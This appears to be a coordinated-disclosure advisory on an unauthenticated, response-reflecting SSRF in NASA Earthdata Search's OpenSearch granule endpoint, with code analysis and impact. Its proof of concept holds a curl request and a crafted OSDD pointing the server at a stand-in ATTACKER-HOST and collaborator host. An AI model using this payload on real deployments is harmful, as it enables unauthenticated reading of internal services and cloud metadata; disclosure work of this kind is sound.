

<div align="center">
  <a href="https://www.thoropass.com/" target="_blank" rel="noopener noreferrer">
    
  </a>
  <br><br>
  <a href="https://www.thoropass.com/talk-to-an-expert" target="_blank" rel="noopener noreferrer">
    
  </a>
  <a href="https://www.linkedin.com/company/thoropass/" target="_blank" rel="noopener noreferrer">
    
  </a>

  <h1>Unauthenticated Response-Reflecting SSRF in NASA Earthdata Search (OpenSearch granule endpoint)</h1>

  <p>🔐 <strong>Thoropass Vulnerability Research Program</strong> 🧪</p>
</div>

<div align="center">

  
  
</div>

---

## Advisory Information

| &nbsp; | &nbsp; |
|:---|:---|
| **Researcher** | [Natan Morette](https://www.linkedin.com/in/nmmorette/) on behalf of [Thoropass](https://thoropass.com) |
| **Product** | [NASA Earthdata Search](https://github.com/nasa/earthdata-search) - web application developed by NASA EOSDIS for discovering, visualizing, and downloading Earth science data |
| **Affected Version** | 1.0.0 and all prior versions (master HEAD `bd935b23f`) |
| **Endpoint** | `serverless/src/openSearchGranuleSearch/handler.js`, `openSearchGranuleSearch` (route `POST /opensearch/granules`) |
| **Vulnerability Type** | CWE-918: Server-Side Request Forgery (SSRF) |
| **CVE ID** | *Pending assignment* |


## Vulnerability Summary

`POST /opensearch/granules` takes a caller-supplied `openSearchOsdd` URL, fetches it server-side, pulls a `template` URL out of the returned OpenSearch Description Document, fetches that too, and returns the raw second-hop response body to the caller. Both fetches are attacker-controlled, the route uses an optional authorizer so anonymous requests reach the handler, and neither fetch validates scheme, host, or IP. Because the raw body is reflected verbatim, an unauthenticated attacker does not just reach internal resources, it reads them: the endpoint is a full read primitive for any internal service that answers with text, HTML, or XML.


## Technical Analysis

### Vulnerable Code

**File:** `serverless/src/openSearchGranuleSearch/handler.js`, line **99** (reflection), and `getOpenSearchGranulesUrl.js`, line **26** (first hop)

```js
// handler.js: read openSearchOsdd from the body, fetch the OSDD, render the template, fetch it, reflect the body
const { echoCollectionId, openSearchOsdd } = params
const openSearchUrlResponse = await getOpenSearchGranulesUrl(echoCollectionId, openSearchOsdd) // hop 1
const { template } = openSearchUrlResponse.body
const renderedTemplate = renderOpenSearchTemplate(template, obj)
const granuleResponse = await wrappedAxios({ method: 'get', url: renderedTemplate })            // hop 2
const { data } = granuleResponse
return { isBase64Encoded: false, statusCode: granuleResponse.status, headers, body: data }       // reflected verbatim

// getOpenSearchGranulesUrl.js:26 - hop 1 fetches the attacker OSDD URL directly, no validation
const osddResponse = await wrappedAxios.get(openSearchOsddUrl, { headers: { 'Client-Id': getClientId().lambda } })
```

### Root Cause

`openSearchOsdd` comes straight from the request body and is fetched with no validation. The `template` extracted from that OSDD is fetched by `renderOpenSearchTemplate`, which only substitutes OpenSearch parameters (`{count}`, `{geo:box}`, `{time:start}`) and never checks the scheme or host, so the attacker controls the final URL end to end. `wrapAxios` adds only timing interceptors, no SSRF protection, and `axios` follows redirects. The route (`OpenSearchGranuleSearchLambda` in `cdk/earthdata-search/lib/earthdata-search-functions.ts`) is wired with `authorizer: authorizers.edlOptionalAuthorizer`, an optional authorizer that passes anonymous requests through to the handler. The handler then returns the second-hop body unchanged, turning the SSRF into a response-reflecting read.


## Proof of Concept

Host an OSDD on a listener you control whose `application/atom+xml` template points at a second collaborator, then send one unauthenticated request:

```bash
# osdd.xml served at http://ATTACKER-HOST/osdd.xml :
# <OpenSearchDescription xmlns="http://a9.com/-/spec/opensearch/1.1/">
#   <Url type="application/atom+xml" template="http://COLLABORATOR/-/osdd-template-hop"/>
# </OpenSearchDescription>

curl -s -X POST "http://TARGET/opensearch/granules" -H 'Content-Type: application/json' \
  -d '{"params":{"echoCollectionId":"C1-PROV","openSearchOsdd":"http://ATTACKER-HOST/osdd.xml"}}'
```

The server makes two attacker-controlled outbound requests, then returns the second one's body:

- hop 1 (OSDD fetch) lands on the attacker host: `GET /osdd.xml` from the server's egress IP.
- hop 2 (template fetch) lands on the second collaborator, with the server's own client fingerprint:

  ```
  GET /-/osdd-template-hop HTTP/1.1
  Host: <collaborator>
  User-Agent: axios/1.18.0
  Client-Id: eed-default-dev-serverless-lambda
  ```

- the HTTP response returned to the unauthenticated caller is the body the collaborator served on hop 2, verbatim:

  ```
  <h1>Hello World</h1>
  ```

The endpoint returns the fetched content, so the response body is fully attacker-influenced. Whatever the second-hop URL returns comes back to the unauthenticated caller. Text, HTML, and XML bodies reflect verbatim; a JSON body is parsed by the default `axios` transform and then rejected by the API Gateway proxy with a 502, so JSON-only endpoints stay blind.




## Impact

- **Unauthenticated internal read**: an anonymous attacker reads the content of internal, otherwise-unreachable services (internal APIs, status and config pages, admin dashboards, internal load balancers) that return text, HTML, or XML, using the server as an SSRF proxy.
- **Response exfiltration, not just reachability**: the raw upstream body is returned verbatim, which is strictly stronger than a blind or timing-only SSRF.
- **Cloud metadata on EC2/ECS-on-EC2 deployments**: where the instance metadata service is reachable, its plain-text paths (for example the IAM role name) are returned verbatim.
- **Redirect pivot**: the fetch follows redirects, so an allowed-looking URL can `302` the server to an internal target.


## References

- [CWE-918: Server-Side Request Forgery (SSRF)](https://cwe.mitre.org/data/definitions/918.html)
- [OWASP API Security Top 10 - API7:2023 Server-Side Request Forgery](https://owasp.org/API-Security/editions/2023/en/0xa7-server-side-request-forgery/)
- [OWASP Top 10 - A10:2021 Server-Side Request Forgery](https://owasp.org/Top10/A10_2021-Server-Side_Request_Forgery_%28SSRF%29/)


## ⚠️ Disclaimer

The vulnerability was identified through authorized security testing. The proof of concept is provided to help defenders validate their exposure and verify remediation.

Thoropass follows **coordinated vulnerability disclosure (CVD)** principles. Vulnerabilities are reported privately to maintainers, reasonable time is provided for remediation, and public advisories are released after coordination or fix availability.


## About Thoropass
Thoropass delivers enterprise-grade audits with AI-native speed and precision. Designed from day one to integrate auditors, automation, and infosec workflows in a single, closed-loop system, no add-ons, no handoffs.

Our experienced penetration testing team proactively discovers vulnerabilities in web applications, APIs, and infrastructure, helping organizations secure their systems before attackers find weaknesses.

<div align="center">
  <br>

  **Thoropass Vulnerability Research Program**

  <em>Improving ecosystem security through responsible research and disclosure.</em>

  <br><br>
  <a href="https://www.thoropass.com/platform/penetration-testing" target="_blank" rel="noopener noreferrer">
    
  </a>
  <br><br>
  <a href="https://www.thoropass.com/" target="_blank" rel="noopener noreferrer">
    
  </a>
  <a href="https://www.linkedin.com/company/thoropass/" target="_blank" rel="noopener noreferrer">
    
  </a>
</div>

---

<div align="center">
  <br><br>
  <a href="https://www.thoropass.com/talk-to-an-expert" target="_blank" rel="noopener noreferrer">
    
  </a>
</div>
